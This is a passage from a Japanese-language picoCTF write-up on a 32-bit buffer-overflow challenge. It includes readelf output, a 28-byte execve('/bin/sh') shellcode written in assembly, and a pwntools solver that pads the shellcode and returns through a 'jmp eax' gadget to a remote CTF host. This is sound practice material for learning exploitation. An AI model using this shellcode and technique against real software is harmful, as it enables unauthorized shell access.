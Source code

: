 ``` bash
     TLS off    0x0009a6a0 vaddr 0x080e36a0 paddr 0x080e36a0 align 2**2
         filesz 0x00000010 memsz 0x00000030 flags r--
   STACK off    0x00000000 vaddr 0x00000000 paddr 0x00000000 align 2**4
         filesz 0x00000000 memsz 0x00000000 flags rwx
   RELRO off    0x0009a6a0 vaddr 0x080e36a0 paddr 0x080e36a0 align 2**0
         filesz 0x00001960 memsz 0x00001960 flags r--
```

BOFを使って書き換えられるスタック領域のバイトサイズは28バイトでしたので、この範囲に収まるようにシェルを取得するシェルコードを作成します。

シェルコードは以下のアセンブリで作成できました。

``` c
; binsh2.s
BITS 32
global _start
 
_start:
    mov eax, 11
    jmp buf
setebx:
    pop ebx
    xor ecx, ecx
    xor edx, edx
    int 0x80
buf:
    call setebx
    db '/bin/sh', 0
```

x86CPUでexecveを呼び出しています。

詳しくは以下。

参考：[Linux x86用のシェルコードを書いてみる - ももいろテクノロジー](https://inaz2.hatenablog.com/entry/2014/03/13/013056)

参考：[シェルコードとは｜Tech Book Zone Manatee](https://book.mynavi.jp/manatee/detail/id=64562)

このシェルコードをスタックに埋め込んだ後、リターンアドレスに`ret rsp`のガジェットを入れてあげればOK、と思ったのですがそのようなガジェットが見つかりませんでした。

そこで、`jmp eax`のガジェットを探してそのアドレスを入れてあげることでFlagが取得できました。

最終的なSolverは以下です。

``` python
from pwn import *
import binascii
import time

elf = ELF("./vuln")
context.binary = elf

with open("shellcode", "rb") as f:
    payload = f.read()

print(len(payload))
payload += b"\x90"*(28-len(payload))
ret = p32(0x0805334b) # jmp eax
payload += ret

with open("shellcode", "wb") as f:
    f.write(payload)

# Local
p = process("./vuln")

# Remote
p = remote("saturn.picoctf.net", 59222)
```
